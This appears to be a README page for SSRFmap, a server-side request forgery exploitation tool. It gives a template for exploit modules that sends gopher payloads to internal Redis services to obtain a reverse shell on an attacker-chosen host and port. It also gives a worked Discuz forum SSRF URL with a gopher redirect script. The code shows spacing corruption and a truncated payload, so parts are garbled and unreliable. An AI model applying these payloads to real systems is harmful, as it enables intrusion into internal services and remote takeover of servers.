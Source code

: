 # SSRF MAP
![Capture](https://user-images.githubusercontent.com/25066959/70392990-83d77f80-19b3-11ea-8468-a9d7dbf246b2.PNG)    

![Capture](https://user-images.githubusercontent.com/25066959/70393005-a10c4e00-19b3-11ea-8128-0655869f3202.PNG)   

Use the template to change the script:   
```
from core.utils import *

import logging

 

name           = "servicename inlowercase"

description    = "ServiceName RCE-What does itdo"

author         = "Name or pseudo of theauthor"

documentation = ["http: // link_to_a_research", "http: // another_link" ]

 

class exploit ():

    SERVER_HOST = "127.0.0.1"

    SERVER_PORT = "4242"

 

    def __init __ (self , requester, args):

        logging .info ("Module '{}' launched!". format (name))

 

        # Handle args for reverse shell

        if args.lhost == None: self.SERVER_HOST = input ("Server Host:" )

        else : self.SERVER_HOST = args. lhost

 

        if args.lport == None: self.SERVER_PORT = input ("Server Port:" )

        else : self.SERVER_PORT = args. lport

 

        # Data for the service

        # Using a generator to create the hostlist

        # Edit the following ip if you need to target something else 

        gen_host = gen_ip_list ("127.0.0.1", args. Level)

        for ip in gen_host:

            port = "6379"

            data = "* 1% 0d% 0a $ 8% 0d% 0aflus [...]% 0aquit% 0d% 0a"

            payload = wrapper_gopher (data, ip, port)

 

            # Handle args for reverse shell 

            payload = payload.replace ("SERVER_HOST", self. SERVER_HOST)

            payload = payload.replace ("SERVER_PORT", self. SERVER_PORT)

 

            # Send the payload 

            r = requester.do_request (args.param, payload)
```

### DZ EXample 
![Capture](https://user-images.githubusercontent.com/25066959/70393022-ce58fc00-19b3-11ea-8287-3f3bb5b00864.PNG)

Which leads to this: 

`http: // 127.0.0.1:8899/forum.php?mod=ajax&action=downremoteimg&message=%5Bimg%3D1%2C1%5Dhttp%3A%2f%2f127.0.0.1%3A9999%2fgopher.php%3Fa.jpg%5B % `2fimg% 5D

gopher.php    
```php
<? php
 header ("Location: gopher: //127.0.0.1: 2333 / _test" );
 ?>
 ```   